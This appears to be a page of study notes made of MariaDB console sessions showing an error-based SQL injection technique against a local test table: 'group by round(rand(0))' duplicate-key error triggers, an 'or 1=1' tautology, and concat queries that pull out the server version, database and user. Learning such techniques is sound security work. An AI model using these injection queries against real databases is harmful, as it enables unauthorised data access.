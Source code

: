 ```
MariaDB [y]> select name from users group by round(rand(0)) having min(0);
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'

OR

MariaDB [y]> select name,count(*) from users group by round(rand(0));
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
```

**It will show all the rows**

```
MariaDB [y]> select name from users where name="sherwin" or 1=1;
+----------+
| name     |
+----------+
| sherwin  |
| analette |
| reine    |
+----------+
3 rows in set (0.000 sec)
```



```
MariaDB [y]> select name from users where name="sherwin" or 1=1 group by round(rand(0)) having min(0);
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
```



```
MariaDB [y]> select name,concat(version()),round(rand(0)) from users;
+----------+-------------------+----------------+
| name     | concat(version()) | round(rand(0)) |
+----------+-------------------+----------------+
| sherwin  | 10.4.17-MariaDB   |              0 |
| analette | 10.4.17-MariaDB   |              1 |
| reine    | 10.4.17-MariaDB   |              1 |
+----------+-------------------+----------------+
3 rows in set (0.001 sec)

MariaDB [y]> select name,concat(version(),database(),user(),round(rand(0))) from users;
+----------+----------------------------------------------------+
| name     | concat(version(),database(),user(),round(rand(0))) |
+----------+----------------------------------------------------+
| sherwin  | 10.4.17-MariaDByroot@localhost0                    |
| analette | 10.4.17-MariaDByroot@localhost1                    |
| reine    | 10.4.17-MariaDByroot@localhost1                    |
+----------+----------------------------------------------------+
3 rows in set (0.000 sec)

MariaDB [y]> select name,concat(version()," ",database()," ",user()," ",round(rand(0))) from users;
+----------+----------------------------------------------------------------+
| name     | concat(version()," ",database()," ",user()," ",round(rand(0))) |
+----------+----------------------------------------------------------------+
| sherwin  | 10.4.17-MariaDB y root@localhost 0                             |
| analette | 10.4.17-MariaDB y root@localhost 1                             |
| reine    | 10.4.17-MariaDB y root@localhost 1                             |
+----------+----------------------------------------------------------------+
3 rows in set (0.000 sec)
```
